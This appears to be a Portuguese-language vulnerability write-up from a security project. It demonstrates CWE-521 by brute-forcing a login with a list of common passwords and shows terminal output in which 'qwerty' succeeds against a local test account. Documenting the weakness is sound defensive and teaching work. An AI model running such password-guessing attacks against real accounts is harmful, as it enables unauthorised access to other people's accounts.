 ## CWE-521: Weak Password Requirements
- https://cwe.mitre.org/data/definitions/521.html

**Ver descrição, score e solução no [report.md](../report.md#cwe-521-weak-password-requirements).**

---
# Exploração da vulnerabilidade

## Ataque: *brute force* no login, usando uma lista de passwords comuns.
### Conhecimento prévio
O atacante possui uma lista de passwords comuns como esta:
```
1. guest
2. 123456
3. password
4. 12345
5. a1b2c3
6. 123456789
7. Password1
8. 1234
9. abc123
10. 12345678
11. qwerty
12. baseball
13. football
14. unknown
15. soccer
16. jordan23
17. iloveyou
18. monkey
19. shadow
20. g_czechout
```

O atacante conhece o email de um utilizador.

### Passo 1
Executar um algoritmo que experimenta todas as passwords da lista, até encontrar a correta.

Ver o nosso [exemplo de código Python](brute_force.py).

### Resultado
```bash
$ python3 brute_force.py target@example.com -p 8001
Try: guest
Failed login!
Try: 123456
Failed login!
Try: password
Failed login!
Try: 12345
Failed login!
Try: a1b2c3
Failed login!
Try: 123456789
Failed login!
Try: Password1
Failed login!
Try: 1234
Failed login!
Try: abc123
Failed login!
Try: 12345678
Failed login!
Try: qwerty
Successful login!
```

O atacante fica a conhecer a password da vítima e a ter acesso à respetiva conta.